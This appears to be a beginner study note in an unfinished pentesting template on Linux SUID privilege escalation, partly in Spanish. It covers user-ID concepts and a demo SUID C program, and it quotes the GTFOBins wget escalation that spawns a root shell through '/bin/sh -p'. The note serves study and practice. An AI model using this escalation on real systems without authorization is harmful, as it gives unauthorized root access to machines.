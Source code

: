 # [Topic Name]  
SUID Exploitation 

`⚠️` **Difficulty Level**: Beginner
`📅` **Last Updated**: 2025-08-17  

---

## 📌 Overview  
- SUID exploitation is a technique used to gain unauthorized access to a system by exploiting a setuid (SUID) binary.  

---

## 🔍 Prerequisites  
**Knowledge**:  
- Basic Linux knowledge

**Tools**:  

---

## 🛠️ Methodology  
### 1. Enumeration  
- Executable files can have special permissions called SUID and GUID.
- SUID (Set User ID) and GUID (Set Group ID) are special permissions that allow a user to execute a file with the permissions of the file owner (SUID) or group (GUID).
- Binaries that have tis bit allow the binary to change user permission during its execution.

#### Security issues
- Having a binary  that runs as the owner of the file can be problematic when *the owner of said file is the root user*

We might able to:
1. Read files owned by root.
2. REad and wirute files owned by root.
3. Execute arbitrary code as the root user.
  
#### Real User ID, Effective User ID, Saved User ID
- Real User ID: Who really you are, adn therefore who owns the process.
- Effective User ID: What the operating system looks at to make authorization decision.
- Saved User ID: Used when a program running with elevated privileges needs to do some unprivileged work temporarily.

### 2. Exploitation  
**Technique 1**: SUID exploitation with `execv`  
We need to create a SUID binary and add SUID permissions to it.
```c
#include <stdio.h> // for  printf
#include <stdlib.h> // for genreal utilities
#include <unistd.h> // for getuid(), geteuid(), execv()
#include <errno.h> // for error handling

int main(int argc, char **argv) {
    // argc is the number of arguments passed to the program
    // argv is an array of strings (char pointers), each string is one argument

    uid_t uid = getuid(); // real user id
    uid_t eid = geteuid(); // effective user id

    printf("-------------------\n");
    printf("[INFO] - Real User ID: %d\n", uid);
    printf("[INFO] - Effective User ID: %d\n", eid);
    printf("-------------------\n");

    /* Execute another progrma */
    execv("/usr/bin/touch", (char*[]){"usr/bin/touch", "hello", NULL});
    
    return 0;
}
```
```bash
# Compile the binary
gcc suid_ex.c -o suid_ex

-------------------
[INFO] - Real User ID: 1000
[INFO] - Effective User ID: 1000
-------------------

# Change owner to root and add SUID permissions
sudo chown root:root suid_ex
sudo chmod u+s suid_ex

# Removde heelo file and run
-------------------
[INFO] - Real User ID: 1000
[INFO] - Effective User ID: 0
-------------------
```

## ⚠️ Common Vulnerabilities  
### 1. Exploting with GTFOBins
#### wget
```bash
sudo install -m =xs $(which wget) .

TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh -p\n/bin/sh -p 1>&0' > $TF
./wget --use-askpass=$TF 0

# whoami
root
```
---

## 🧰 Tools Cheatsheet  
| Tool | Command/Usage |  
|------|--------------|  
| [LinPEAS](https://github.com/carlospolop/PEASS-ng) | `./linpeas.sh` |  
| [Metasploit](https://www.metasploit.com/) | `use exploit/linux/local/...` |  

---

## 🎯 Practice Labs  
- [TryHackMe: Room Name](https://tryhackme.com)  
- [HackTheBox: Machine Name](https://hackthebox.com)  
- **Local Lab Setup**:  
  ```bash
  docker run -d --name vulnerable_app image_name
  ```  

---

## 📚 References  
- [OWASP Guide](https://owasp.org)  
- [GTFOBins](https://gtfobins.github.io)  
- Book: *Title by Author*  

---

## 🚀 Quick Commands  
```bash
sudo install -m =xs $(which wget) .

-m =xs: Esta es la parte más importante. La opción -m se usa para establecer los permisos del archivo.
x: Otorga permisos de ejecución.
s: Establece el bit setuid. Este bit hace que el programa se ejecute con los permisos del dueño del archivo, que en este caso es root (el superusuario).
```
```bash
echo -e '#!/bin/sh -p\n/bin/sh -p 1>&0' > $TF 
#!/bin/sh -p: Esto se conoce como "shebang". Le dice al sistema que el archivo es un script de shell y que debe ser ejecutado por /bin/sh en modo privilegiado (-p).

/bin/sh -p 1>&0: Este comando inicia una nueva shell.
  1>: Redirige la salida estándar (stdout).
  &0: La redirige a la entrada estándar (stdin).
  En pocas palabras, esto crea una nueva shell y redirige sus entradas y salidas para que coincidan con las de la shell que la ejecutó.
```